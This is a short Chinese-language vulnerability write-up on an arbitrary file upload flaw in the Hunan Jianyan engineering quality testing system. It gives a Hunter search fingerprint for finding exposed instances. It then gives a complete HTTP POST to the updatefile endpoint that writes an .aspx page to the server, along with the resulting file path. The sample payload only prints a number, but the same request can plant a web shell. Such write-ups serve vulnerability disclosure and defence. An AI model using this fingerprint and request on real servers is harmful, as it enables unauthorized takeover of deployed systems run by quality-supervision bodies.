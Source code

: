 # 湖南建研工程质量检测系统updatefile存在任意文件上传漏洞

# 一、漏洞简介
湖南建研质量监测系统由相关政府质量监督机构、参建单位等共同参与，根据各自的职责，上网操作相应的模块，实现工程质量监督业务的统一管理。该系统存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 湖南建研工程质量检测系统

# 三、资产测绘
+ hunter`web.body="/Content/Theme/Standard/webSite/login.css"`
+ 特征

![1702346060563-9e664378-c6d3-46b6-84b3-8d0043c714cd.png](./img/pyW4NN9yooREmsku/1702346060563-9e664378-c6d3-46b6-84b3-8d0043c714cd-565576.png)

# 四、漏洞复现
```plain
POST /Scripts/admintool?type=updatefile HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:92.0) Gecko/20100101 Firefox/92.0
Content-Length: 90
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

filePath=enelxghy.aspx&fileContent=<%@ Page Language="C#"%><% Response.Write(1234*1234);%>
```

![1702348378974-0d318381-620c-41aa-b97a-1b4f19878845.png](./img/pyW4NN9yooREmsku/1702348378974-0d318381-620c-41aa-b97a-1b4f19878845-910772.png)

上传文件位置

```plain
/Scripts/enelxghy.aspx
```

![1702348240471-b1fcadb7-dc80-40f8-8d01-7537daaeabb5.png](./img/pyW4NN9yooREmsku/1702348240471-b1fcadb7-dc80-40f8-8d01-7537daaeabb5-361653.png)



> 更新: 2024-02-29 23:55:43  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vltdwq5lzwibm1z7>